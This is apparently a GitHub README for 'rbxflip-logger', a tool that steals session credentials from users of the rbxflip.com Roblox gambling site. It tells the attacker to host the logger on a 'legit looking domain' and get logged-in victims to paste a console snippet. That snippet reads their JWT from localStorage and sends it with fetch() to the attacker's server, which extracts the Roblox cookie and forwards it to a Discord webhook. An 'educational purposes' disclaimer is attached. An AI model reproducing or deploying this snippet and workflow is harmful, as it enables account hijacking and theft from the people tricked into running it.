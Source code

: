 # rbxflip-logger
 since some people are selling that for $25 I decided to make one myself rq since it's really easy and people shouldn't waste their money on it,
 made it really quick, you can add more stuff (in sc.php) to get more informations about the cookie using the roblox api.


# How to use
1. Upload the files (from logger folder) on your webserver
2. Get a legit looking domain
3. Go to rbxflip.com (be logged in)
4. Open the developer console
5. Paste that inside the console:
```
var token = localStorage.getItem('auth._token.local');
await fetch("https://yourdomain.com/sc.php?t=" + token);
```
6. The simple js code will get the value of auth._token.local (JWT Token) and then decoding (server-sided), after decoding it, it will read the "credentials" object which is the roblox cookie stored on rbxflip, then it sends the cookie to the discord webhook of your choice. Nothing special, but people are selling this shit for $25 lol.
7. Tutorial: https://www.youtube.com/watch?v=1YYUJPak5fY



# Disclaimer
## I, the creator, am in no way responsible for any actions that you may make using this software. You take full responsibility with any action taken using this software. Please take note that this application was designed for educational purposes and should never be used maliciously. By downloading the software or source to the software, you automatically accept this agreement.
